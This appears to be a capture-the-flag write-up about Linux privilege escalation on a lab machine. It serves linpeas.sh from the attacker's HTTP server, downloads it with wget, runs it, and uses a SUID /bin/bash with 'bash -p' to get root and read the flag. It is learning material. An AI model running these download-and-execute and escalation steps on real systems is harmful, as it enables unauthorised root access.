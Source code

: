 >>TO FIND THE VULNERABLE AREA TO ESCALATE OUR PRIVELEGE WE 'linpeas' TOOL TO SEARCH.
>>THERE IS NO INTERNET ON THE TARGET MACHINE SO WE NEED TO SETUP THE PYTHON HTTPSERVER WITH THE FILE ON THE DIRECTORY.
>>AFTER STARTING THE SERVER.USE 'wget' TO DOWNLOAD THE FILE FROM OUR LOCAL MACHINE.THEN MAKE IT AS EXECUTABLE WITH 'chmod +x' COMMAND.
>>THEN EXECUTE IT .WITH THAT EXECUTION WE FOUND '/bin/bash' IS THE AREA VULNERABLE AND WE CAN USE IT TO EXECUTE AND ESCALATE OUR PRIVELEGE AS ROOT.
>>GO TO GTFOBin AND SEARCH FOR "bash" FIND THE SUID AREA.THERE IS A COMMAND 'bash -p'.
>>NOW EXECUTE THAT COMMAND THEN WE GOT OUR PRIVELEGE AS ROOT.   

```bash
root@ip-10-10-44-7:~/uploads# mv /opt/PEAS/linPEAS/linpeas.sh .
root@ip-10-10-44-7:~/uploads# python -m http.server 7777
Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
10.10.250.63 - - [08/Nov/2021 13:56:38] "GET /linpeas.sh HTTP/1.1" 200 -


-bash-4.4$ wget http://10.10.44.7:7777/linpeas.sh
--2021-11-08 13:56:38--  http://10.10.44.7:7777/linpeas.sh
Connecting to 10.10.44.7:7777... connected.
HTTP request sent, awaiting response... 200 OK
Length: 233380 (228K) [text/x-sh]
Saving to: \u2018linpeas.sh\u2019
linpeas.sh        100%[==========>] 227.91K  --.-KB/s    in 0.002s  

2021-11-08 13:56:38 (104 MB/s) - \u2018linpeas.sh\u2019 saved [233380/233380]
-bash-4.4$ ls
linpeas.sh
-bash-4.4$ chmod +x linpeas.sh 
-bash-4.4$ ls
linpeas.sh
-bash-4.4$ ./linpeas.sh 
bash-4.4$ bash -p
```

>>WITH THAT ROOT SHELL NAVIGATE TO THE ROOT DIRECTORY AND CAT THE FLAG.

```bash
bash-4.4# whoami
root
bash-4.4# cd /root
bash-4.4# ls
flag.txt
bash-4.4# cat flag.txt
thm{2fb10afe933296592}

```

----

# ANSWER THE FOLLOWING :
----
